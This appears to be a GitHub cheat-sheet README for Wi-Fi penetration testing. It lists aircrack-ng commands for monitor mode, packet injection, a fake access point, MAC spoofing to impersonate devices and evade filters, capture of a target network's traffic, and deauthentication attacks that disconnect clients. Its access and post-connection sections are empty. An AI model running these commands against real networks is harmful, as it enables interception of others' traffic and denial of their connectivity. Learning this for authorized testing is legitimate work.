# Ethical Hacking Cheat Sheet
<details>
    <summary> Basic Information</summary>
These commands are works only on linux based OS system
An external Network Adapter is required, Your Network Adapter must support
{ Monitor Mode, packet injection } mode Here my network interface name is { wlan1 }, use these commands 

```sh
iwconfig 
```
 or 
 ```
 ifconfig
 ```
check your network interface name, your network interface name may be diffrent use accordingly.

First you need to switch root user

```
sudo su
```
</details>

# Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-manager-commands)
- [Network Adapter testing commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-adapter-testing-commands)
- [Changing MAC Address](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#changing-mac-address)
- [Network Hacking](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-hacking)
    * [1. Pre-Connection Attack]()
    * [2. Ganing Access]()
    * [3. Post-Connection Attack]()



    
---
## Network Manager Commands
 Kill Network Manager
```
airmon-ng check kill
```
 Enable Network Manager
```
service NetworkManager start
```
 Restart Network Manager
```
systemctl restart NetworkManager
```
 Check Status of Network Manager
```
systemctl status NetworkManager
```
---
## Network Adapter Testing Commands
 Enable Monitor Mode
<details>
    <summary>Why we need to enable monitor mode ?</summary>
we want is to be able to capture all the packets
that are within our range,
even if they are sent to the router
and even if they are sent to another device.
So to do this, we need to set our network adapter to the mode
</details>

```
airmon-ng start wlan1
```
 Disable Monitor Mode
```
airmon-ng stop wlan1
```
 Packet Injection test
```
aireplay-ng --test wlan1
```
 Access Point Creation Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
# Network Hacking

### [1. Pre-Connection Attack]()
### [2. Ganing Access]()
### [3. Post-Connection Attack]()
&nbsp;
<details>
    <summary>What is MAC Address ?</summary>
MAC address stands for Media Access Control,
it's a permanent, physical, and unique address
assigned to network interfaces
by the device manufacturer.
So whether you have a wireless card,
or a wired, or Ethernet card,
each one of these network cards
come with a specific address that is unique to this card.
So there is no two devices in the world
that would have the same MAC address.
And this address will always be the same
to this specific device,
even if you unplug it from your computer,
connect it to another computer,
then this network device will always have the same address.
So you might already know that the IP address
is used in the internet to identify computers,
and communicate between devices on the internet.
The MAC address is used within the network
to identify devices and transfer data between devices.
So each piece of data or packet
that is sent within the network
contains a source MAC and a destination MAC.
Therefore, this packet would flow
from the source MAC to the destination MAC.
So because this is a physical unique address
to each interface, to each network device,
and because it is used to identify devices,
then changing it will make you anonymous on the network.
Not only that, but the MAC address is often used
by filters to prevent or allow devices
to connect to networks,
and do specific tasks on the network.
So being able to change your MAC address
to another device's MAC address
will allow you to impersonate this device
and allow you to do things
that you might not be able to do.
So you'd be able to bypass filters,
or connect to networks that only specific devices
with specific MAC addresses can connect to,
and you will also be able to hide your identity.
</details>

 Changing MAC Address
1. step
```
ifconfig
```
2. step
```
ifconfig wlan1 down
```
3. step ( you can assign any MAC Address, just make sure your address starts with 00 ) 
```
ifconfig wlan1 ether 00:11:22:33:44:55
```
4. step
```
ifconfig wlan1 up
```

the MAC address will revert back
to the original one once you restart the computer,
because we're only changing the MAC address in memory,
we're not really changing the physical MAC address.

```
ifconfig wlan1 down
ifconfig wlan1 ether 00:11:22:33:44:55
ifconfig wlan1 up
```
---
# 1. Pre-Connection Attack
## Packet Sniffing
<details>
    <summary>What is Packet Sniffing ?</summary>
Now that we have enabled monitor mode
on our wireless interface,
we are able to capture all the wifi packets
sent within our range,
even if the packet is not directed to our computer,
even if we're not connected to the target network,
and even without knowing the key
or the password to the target network.
So all we need right now is a program
that can capture these packets for us.
The program that we're going to use is called { airodump-ng }.
It's part of the a { aircrack-ng } suit,
and it's a packet-sniffer,
so it's basically a program designed
to capture packets while you're in monitor mode.
So it will allow us to see
all the wireless networks around us,
and show us detailed information about it's MAC address,
it's channel, it's encryption,
the clients connected to this network, and so on.
</details>

 Sniff Network around `2.4 GHz`
```
airodump-ng wlan1
```
 Sniff Network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
 Capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
 Capture data in a file `test`
```
airodump-ng --bssid @1 --channel @2 --write test wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

 Open wireshark application to read captured data, captured in `test.cap`, 
```
wireshark
```
&nbsp;
## DE-Authentication Attack 
<details>
    <summary>What is de-authentication attack ?</summary>
This attack allow us to disconnect any device,
from any network, before connecting to any of these networks
and without the need to know the password for the network.
To do this, we're going to pretend to be the client
that we want to disconnect, by changing our MAC address
to the MAC address of that client, and tell the router
that I want to disconnect from you.
Then, we're going to pretend to be the router, again,
by changing our MAC address to the router's MAC address
and tell the client that you're requested
to be disconnected, so I'm going to disconnect you.
This will allow us to successfully disconnect,
or de-authenticate any client from any network.
Now, we're actually not going to do this manually,
we're gonna use a tool called { aireplay-ng }to do that.
</details>

```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client



if it`s fails then, target router on specfic channel
```
airodump-ng --bssid @1 --channel @2 wlan1
```
@1 → BSSID of target

@2 → Channel number

---
# 2. Gaining Access
<details>
    <summary></summary>

</details>

# ===}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)